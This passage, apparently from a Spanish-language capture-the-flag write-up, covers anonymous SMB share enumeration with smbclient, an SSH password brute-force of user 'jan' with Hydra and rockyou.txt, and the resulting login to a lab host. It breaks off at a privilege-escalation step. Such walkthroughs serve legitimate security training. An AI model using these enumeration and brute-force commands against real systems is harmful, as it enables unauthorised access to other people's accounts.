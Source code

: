 
### Protocolo SMB

Enumeramos recursos compartidos con SMB:
```bash
smbclient -L 10.10.136.193 -N
```
<img width="563" alt="image" src="https://github.com/user-attachments/assets/98d63a47-026f-4ff0-8b81-10455185e113" /><br>


Accedemos al recurso Anonymous:
```bash
smbclient //10.10.136.193/Anonymous -N
```
<img width="561" alt="image" src="https://github.com/user-attachments/assets/077610fb-7440-4505-933a-c8e2e76ee6f5" /><br>


Encontramos el archivo staff.txt, lo descargamos:
```bash
get staff.txt
```
<img width="559" alt="image" src="https://github.com/user-attachments/assets/81ccf4bd-1cf7-402a-a366-ac0d22150921" />

Confirmamos los usuarios: Kay y Jan.

---

## Explotación

### Hydra

Probamos fuerza bruta SSH con Hydra sobre el usuario Jan:
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.136.193
```
<img width="560" alt="image" src="https://github.com/user-attachments/assets/f929c632-7a35-48c4-84b8-4e44a44e3fa5" />

Encontramos la contraseña de jan: armando.

Accedemos vía SSH:
```bash
ssh jan@10.10.136.193
```
<img width="560" alt="image" src="https://github.com/user-attachments/assets/f1f1ff97-5da9-4458-a1f1-7f67f74b0ee0" />
<img width="563" alt="image" src="https://github.com/user-attachments/assets/4e514a54-0e0e-49a6-a5fa-421996e90ee0" />

---

## Escalada de privilegios

### Sudo -l
<img width="562" alt="image" src="https://github.com/user-attachments/assets/f9a7aa3d-3122-4105-b200-8cf043cae403" />

